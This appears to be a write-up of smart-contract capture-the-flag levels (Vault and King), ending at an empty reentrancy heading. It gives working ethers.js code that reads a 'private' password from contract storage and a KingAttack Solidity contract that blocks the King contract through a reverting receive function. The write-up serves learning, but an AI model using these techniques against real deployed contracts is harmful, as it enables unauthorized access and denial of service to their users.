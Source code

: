 
## vault

`private` keyword only restricts visibility of a variable from other smart contracts not from the external world. Blockchain data is public be it public, private or constant. To unlock the vault we need to access the the storage slot which stores password

1st slot will have bool locked (slot id 0x0)

2nd slot is the password (slot id 0x1)

```javascript
const storage = await ethers.provider.getStorageAt(vault.address, "0x1", "latest");
const tx = await vault.unlock(storage);
```

---

## king

Things to notice here
- external call using `transfer` in `receive` doesn't check the return response.
- to become the king you need to send some eth to this contract
- next user sending eth to this contract will trigger a transfer to the existing king

Since there is no response check or try / catch in the external call. It can be blocked by reverting everytime and render the contract unusable. This is called Denial of Service attack.

To clear this level. We need to implement a new contract (KingAttack contract) and send some ether to King contract from the KingAttack contract which will make the KingAttack new king. 

KingAttack should revert on receive to make the King contract unusable

```solidity
contract KingAttack {
    function sendPayment(address king) external payable {
        (bool success, ) = payable(address(king)).call{value: msg.value}("");
        require(success, "External call success");
    }
    receive () external payable {
        require(!true, "Ha Ha Ha");
    }
}
```

```javascript
const tx = await kingAttack.sendPayment(king.address, {value: hre.ethers.utils.parseEther("0.002")});
```
0.002 because the value should be more than or equals current prize


---

## reentrancy

